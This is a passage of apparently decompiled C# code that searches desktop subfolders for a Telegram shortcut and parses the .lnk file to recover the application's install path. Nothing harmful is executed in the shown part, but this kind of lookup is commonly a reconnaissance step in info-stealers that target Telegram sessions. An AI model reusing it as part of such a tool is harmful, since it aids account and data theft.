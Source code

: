 ```csharp
							fileStream.Seek((long)((ulong)num2), SeekOrigin.Current);
						}
						long position = fileStream.Position;
						uint num3 = binaryReader.ReadUInt32();
						fileStream.Seek(12L, SeekOrigin.Current);
						uint num4 = binaryReader.ReadUInt32();
						fileStream.Seek(position + (long)((ulong)num4), SeekOrigin.Begin);
						text2 = new string(binaryReader.ReadChars((int)(position + (long)((ulong)num3) - fileStream.Position)));
					}
				}
			}
			catch
			{
				foreach (string text3 in Directory.GetDirectories(Variables.desktop))
				{
					foreach (string text4 in Directory.GetFiles(text3))
					{
						string fileName = Path.GetFileName(text4);
						bool flag2 = fileName == "Telegram.lnk";
						if (flag2)
						{
							string text5 = text3 + "\\Telegram.lnk";
							FileInfo fileInfo2 = new FileInfo(text5);
							try
							{
								using (FileStream fileStream2 = File.Open(fileInfo2.FullName, FileMode.Open, FileAccess.Read))
								{
									using (BinaryReader binaryReader2 = new BinaryReader(fileStream2))
									{
										fileStream2.Seek(20L, SeekOrigin.Begin);
										uint num5 = binaryReader2.ReadUInt32();
										bool flag3 = (num5 & 1U) == 1U;
										if (flag3)
										{
											fileStream2.Seek(76L, SeekOrigin.Begin);
											ushort num6 = binaryReader2.ReadUInt16();
											fileStream2.Seek((long)((ulong)num6), SeekOrigin.Current);
										}
										long position2 = fileStream2.Position;
										uint num7 = binaryReader2.ReadUInt32();
										fileStream2.Seek(12L, SeekOrigin.Current);
										uint num8 = binaryReader2.ReadUInt32();
										fileStream2.Seek(position2 + (long)((ulong)num8), SeekOrigin.Begin);
										return new string(binaryReader2.ReadChars((int)(position2 + (long)((ulong)num7) - fileStream2.Position)));
									}
								}
							}
							catch
							{
								return "Not Found!";
							}
						}
					}
				}
				text2 = "Not Found!";
			}
			return text2;
```